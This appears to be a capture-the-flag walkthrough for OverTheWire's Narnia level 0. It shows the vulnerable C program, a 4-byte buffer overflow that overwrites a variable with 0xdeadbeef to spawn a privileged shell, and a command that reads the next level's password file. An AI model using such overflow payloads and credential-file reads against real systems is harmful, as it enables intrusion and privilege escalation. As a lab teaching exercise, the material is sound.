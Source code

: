 ```bash
┏━•  ~
┗  ssh narnia0@narnia.labs.overthewire.org -p 2226

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password:
Linux narnia 4.18.12 x86_64 GNU/Linux
```
... SNIP BANNER ...

```bash
narnia0@narnia:~$ cat /narnia/narnia0.c
```
```c
/*                                                                                                                               /*
  This program is free software; you can redistribute it and/or modify
  it under the terms of the GNU General Public License as published by
  the Free Software Foundation; either version 2 of the License, or
  (at your option) any later version.

  This program is distributed in the hope that it will be useful,
  but WITHOUT ANY WARRANTY; without even the implied warranty of
  MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
  GNU General Public License for more details.

  You should have received a copy of the GNU General Public License
  along with this program; if not, write to the Free Software
  Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}
```

We can quickly see our buffer overflow in the code. The input character buffer (`char buf[20];`) has a length of 20 bytes, while the scanf() allows for 24 bytes (`scanf("%24s",&buf);`) of input leaving us 4 bytes to overflow. 

Looking at the code we can see that val has been assigned the hexadecimal value 0x41414141 (`long val=0x41414141;`), which, when decoded to a string is `AAAA`. It looks like the program expects the user to enter 20 characters then 0xDEADBEEF.

Lets try running the program with 20 A's to see the output.
```bash
narnia0@narnia:/narnia$ ./narnia0                                                                                     Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!
```

Now lets see what happens if we can change `val` to another value by adding 20 A's and 4 B's.
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```
It works! We were able to modify `val`. Now lets try giving the program what it wants. 20 chars, and then 0xdeadbeef. So lets test with the correct payload (i.e. hexstring in reverse 0xefbeadde)

```bash
narnia0@narnia:~$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
Correct val\'s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

###### NOTE: You may be wondering why deadbeef is written backwards ("\xef\xbe\xad\xde"). In x86 and x86-64 (and a variety of other hardware), multi-byte values such as addresses are stored in little-endian order, ie. "backwards" from the viewpoint of a person reading it.

Now that we have privilege escilation lets get the password for narnia1 from /etc/narnia_pass/narnia1.

```bash
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
Correct val\'s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
efeidiedae       # password for narnia1
```

Alternatively, print the string, and copy & paste it to get the the narnia1 shell and grab the password from /etc/ manually.

```bash
narnia0@narnia:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)
AAAAAAAAAAAAAAAAAAAAﾭޯ                             # copy this to paste it
narnia0@narnia:/narnia$ ./narnia0
Correct val\'s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭޯ 
buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef                                   # success! 
$ whoami                                          
narnia1                                           
$ cat /etc/narnia_pass/narnia1
efeidiedae                                        # password for narnia1
$
```